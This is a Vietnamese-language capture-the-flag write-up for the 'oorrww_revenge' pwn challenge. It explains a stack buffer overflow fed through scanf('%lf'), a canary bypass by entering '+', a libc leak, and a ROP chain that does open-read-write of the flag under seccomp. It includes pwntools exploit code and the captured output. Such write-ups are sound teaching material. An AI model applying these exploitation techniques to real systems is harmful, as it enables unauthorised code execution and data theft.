 # write up oorrww_revenge
```c
    for (v2 = 0; v2 <= 29; v2 += 1)
```
- bài lặp 30 lần
```c
    scanf("%lf",buff + (i << 3));
```
- mỗi lần lặp nhập 8 bytes
```assembly
0x00000000 | 0x00007fffffffe420 | 0x00007fffffffe608	0x000000010000000c	................ -> rsp 
0x00000010 | 0x00007fffffffe430 | 0x0000000000000040	0x0000000000000008	@...............        
0x00000020 | 0x00007fffffffe440 | 0x0000000000008000	0x0000000000000800	................ -> rdx 
0x00000030 | 0x00007fffffffe450 | 0x0000000000000800	0x0000000000090000	................        
0x00000040 | 0x00007fffffffe460 | 0x0000000000300000	0x0000000000300000	..0.......0.....        
0x00000050 | 0x00007fffffffe470 | 0x0000000000000100	0x00007fffffffe4a8	................        
0x00000060 | 0x00007fffffffe480 | 0x0000003c00000006	0x0000000000000000	....<...........        
0x00000070 | 0x00007fffffffe490 | 0x0000000000000000	0x0000000000000000	................        
0x00000080 | 0x00007fffffffe4a0 | 0x0000000000000000	0x0000000000000000	................        
0x00000090 | 0x00007fffffffe4b0 | 0x0000000000000000	0x0000000000000000	................        
0x000000a0 | 0x00007fffffffe4c0 | 0x0000000000000000	0x00007ffff7fe6cc0	.........l......        
0x000000b0 | 0x00007fffffffe4d0 | 0x0000000000000000	0x137c5674f1d7d800	............tV|.        
0x000000c0 | 0x00007fffffffe4e0 | 0x00007fffffffe580	0x00007ffff7db4c88	.........L...... -> rbp 

```
- vì frame chỉ chứa đc 192 bytes nên xảy ra buffer overflow
- vì bài có sẵn pop rax nên có thể kết hợp với 1 phần địa chỉ của hàm gifts để leak điạ chỉ 
- vì bài có canary nên muốn bỏ qua ghi đè canary cần nhập 1 ký tự đặc biệt là dấu + hoặc -
```python
    for i in range(19):
        pwn.log.info(f"time: {i+1}")
        payload = b"1"
        sla(b"input:\n",payload)
    sla(b"input:",b"+")
    payload = str(struct.unpack('d', pwn.p64(rbp1))[0]).encode()
    sla(b"input:",payload)
    payload = str(struct.unpack('d', pwn.p64(pop_rax))[0]).encode()
    sla(b"input:",payload)
    payload = str(struct.unpack('d', pwn.p64(exe.got.puts))[0]).encode()
    sla(b"input:",payload)
    payload = str(struct.unpack('d', pwn.p64(exe.sym.gifts+15))[0]).encode()
    sla(b"input:",payload)
    sla(b"input:",b"+")
    payload = str(struct.unpack('d', pwn.p64(exe.sym._start))[0]).encode()

```
- đầu tiên chỉ cần nhập 19 lần sau đó đến lần nhập của canary thì nhập dấu cộng bỏ qua canary, sau đó e nhập tiếp các payload còn lại, leak địa chỉ cần có pop rax, địa chỉ gots, và 1 phần của hàm gifts bắt đầu từ đây, cuối cùng là quay lại hàm main
```assembly
   0x00000000004012da <+15>:	mov    rdi,rax
   0x00000000004012dd <+18>:	call   0x4010c0 <puts@plt>
   0x00000000004012e2 <+23>:	nop
   ...
```
- sau khi có được địa chỉ libc, em tìm địa chỉ chứa format %s cùng với scanf để nhập lần tiếp theo với kích thước lớn để chứa payload và chạy 

```python
    arr = []
    arr.append(0x404128)
    arr.append(pop_rdi)
    arr.append(fmt)
    arr.append(pop_rsi)
    arr.append(0x404128+8)
    # arr.append(pop_rbp)
    # arr.append(0x404230)
    arr.append(ret)
    arr.append(exe.plt.__isoc99_scanf)
    arr.append(leave_ret)
```
- cuối cùng là payload open read write flag vì bài có sử dụng seccomp không cho thực thi execve, ở đây em read thêm 1 lần nữa bằng syscall vì em cảm giác scanf ignore 1 số ký tự trong payload 

- sau khi setup 
```bash
flag{dfashfsdjakfhdasjfhasdjfhdasfjd}
\x00\x00\x1a\x10@\x00\x00\x00\x00\x00\xe5\xa3B\xe1\xba\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x1a\x10@\x00\x00\x00\x00\x00\x03\x12@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Q\xbeB\xe1\xba\x00\x000D@\x
```

